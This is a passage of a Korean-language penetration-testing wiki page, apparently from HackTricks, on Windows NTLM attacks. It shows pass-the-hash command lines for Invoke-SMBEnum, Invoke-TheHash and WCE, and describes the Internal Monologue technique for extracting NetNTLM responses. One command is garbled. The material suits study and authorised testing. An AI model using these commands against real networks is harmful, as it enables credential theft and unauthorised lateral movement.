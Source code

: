 ```bash
Invoke-SMBEnum -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 -Target dcorp-mgmt.dollarcorp.moneycorp.local -verbose
```
#### Invoke-TheHash

이 기능은 **모든 다른 기능의 조합**입니다. **여러 호스트**를 전달할 수 있으며, **제외**할 사람을 지정하고, 사용하고 싶은 **옵션**(_SMBExec, WMIExec, SMBClient, SMBEnum_)을 선택할 수 있습니다. **SMBExec**와 **WMIExec** 중 **어떤 것**을 선택하더라도 _**Command**_ 매개변수를 제공하지 않으면 **권한이 충분한지** **확인**만 합니다.
```
Invoke-TheHash -Type WMIExec -Target 192.168.100.0/24 -TargetExclude 192.168.100.50 -Username Administ -ty    h F6F38B793DB6A94BA04A52F1D3EE92F0
```
### [Evil-WinRM Pass the Hash](../../network-services-pentesting/5985-5986-pentesting-winrm.md#using-evil-winrm)

### Windows Credentials Editor (WCE)

**관리자 권한으로 실행해야 합니다**

이 도구는 mimikatz와 동일한 작업을 수행합니다 (LSASS 메모리 수정).
```
wce.exe -s <username>:<domain>:<hash_lm>:<hash_nt>
```
### Manual Windows remote execution with username and password

{{#ref}}
../lateral-movement/
{{#endref}}

## Extracting credentials from a Windows Host

**Windows 호스트에서 자격 증명을 얻는 방법에 대한 자세한 내용은** [**이 페이지를 읽어야 합니다**](https://github.com/carlospolop/hacktricks/blob/master/windows-hardening/ntlm/broken-reference/README.md)**.**

## Internal Monologue attack

Internal Monologue Attack은 공격자가 피해자의 머신에서 NTLM 해시를 **LSASS 프로세스와 직접 상호작용하지 않고** 검색할 수 있게 해주는 은밀한 자격 증명 추출 기술입니다. Mimikatz와 달리, Mimikatz는 메모리에서 해시를 직접 읽고 엔드포인트 보안 솔루션이나 Credential Guard에 의해 자주 차단되는 반면, 이 공격은 **Security Support Provider Interface (SSPI)를 통해 NTLM 인증 패키지(MSV1_0)에 대한 로컬 호출을 활용합니다**. 공격자는 먼저 **NTLM 설정을 다운그레이드**(예: LMCompatibilityLevel, NTLMMinClientSec, RestrictSendingNTLMTraffic)하여 NetNTLMv1이 허용되도록 합니다. 그런 다음 실행 중인 프로세스에서 얻은 기존 사용자 토큰을 가장하고, 알려진 챌린지를 사용하여 NetNTLMv1 응답을 생성하기 위해 로컬에서 NTLM 인증을 트리거합니다.

이 NetNTLMv1 응답을 캡처한 후, 공격자는 **미리 계산된 레인보우 테이블**을 사용하여 원래 NTLM 해시를 신속하게 복구할 수 있으며, 이를 통해 측면 이동을 위한 추가 Pass-the-Hash 공격이 가능합니다. 중요한 것은 Internal Monologue Attack이 네트워크 트래픽을 생성하지 않고, 코드를 주입하지 않으며, 직접 메모리 덤프를 트리거하지 않기 때문에 전통적인 방법인 Mimikatz에 비해 방어자가 탐지하기 더 어렵다는 것입니다.

NetNTLMv1이 수용되지 않는 경우—강제 보안 정책으로 인해, 공격자는 NetNTLMv1 응답을 검색하지 못할 수 있습니다.

이 경우를 처리하기 위해 Internal Monologue 도구가 업데이트되었습니다: `AcceptSecurityContext()`를 사용하여 서버 토큰을 동적으로 획득하여 NetNTLMv1이 실패할 경우에도 **NetNTLMv2 응답을 캡처**할 수 있습니다. NetNTLMv2는 훨씬 더 해독하기 어렵지만, 여전히 제한된 경우에 대한 릴레이 공격이나 오프라인 무차별 대입의 경로를 열어줍니다.
